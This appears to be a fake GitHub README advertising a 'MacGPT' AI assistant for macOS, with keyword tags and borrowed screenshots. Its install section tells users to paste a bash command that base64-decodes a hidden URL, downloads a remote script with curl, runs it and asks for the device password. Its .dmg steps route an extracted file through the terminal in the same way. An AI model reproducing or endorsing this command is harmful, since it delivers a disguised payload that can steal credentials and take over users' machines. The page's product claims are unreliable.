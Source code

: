 # MacGPT for Mac Download

![MacGPT Screenshot 1](https://cdn.mos.cms.futurecdn.net/KskGfTjuMC2mkLqxy8TbrU.png)

---

## 📥 Download MacGPT for macOS

[![⬇️ Download MacGPT](https://img.shields.io/badge/Download-MacGPT-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/MacGPT)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is MacGPT for Mac?

MacGPT is an intuitive and powerful AI assistant for macOS, leveraging the power of GPT-based technology. It provides seamless access to AI-driven conversational models, making it perfect for anyone looking for intelligent assistance right on their Mac.

With MacGPT, you can have real-time conversations, access detailed answers, and even get help with complex tasks such as writing, coding, summarizing documents, and brainstorming ideas. Optimized for macOS, it integrates well with your system and offers a fluid, easy-to-use interface.

Whether you're using it for productivity, creativity, or just as a fun tool, MacGPT brings the power of GPT to your fingertips, enhancing your Mac experience.

---

![MacGPT Screenshot 2](https://images.macrumors.com/t/dxv-fL4alp8zuwzDwJ6j6haQnqM=/3040x/article-new/2023/03/macgpt.jpg)

---

## ⚙️ Key Features

- 🧠 AI-Powered Assistance – Powered by GPT models for seamless, real-time conversation  
- 📝 Task Automation – Use MacGPT for writing, summarizing, and generating ideas  
- 💻 Mac Optimized – Native integration with macOS for a smooth experience  
- 📡 Fast Responses – Instant and intelligent answers to a wide range of queries  
- 🎨 Creative Support – Assist with brainstorming, design ideas, and content creation  
- 🖥️ Easy-to-Use Interface – Simple, intuitive, and well-suited for macOS users  
- 📱 Seamless Sync – Sync your data and notes across multiple devices  
- 🔒 Data Security – Privacy-focused with secure communication  

---

## ✅ Suitable For

- Students & Writers  
- Developers & Coders  
- Content Creators  
- Research Professionals  
- Anyone looking for an intelligent assistant  

---

## 📦 System Requirements

- macOS 10.12 (Sierra) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

macgpt, macgpt free, macgpt download, macgpt for mac, macgpt app, gpt mac, macgpt assistant, macgpt ai, macgpt download free, macgpt download mac, macgpt mac app, macgpt free download, macgpt for writing, macgpt macbook, macgpt productivity
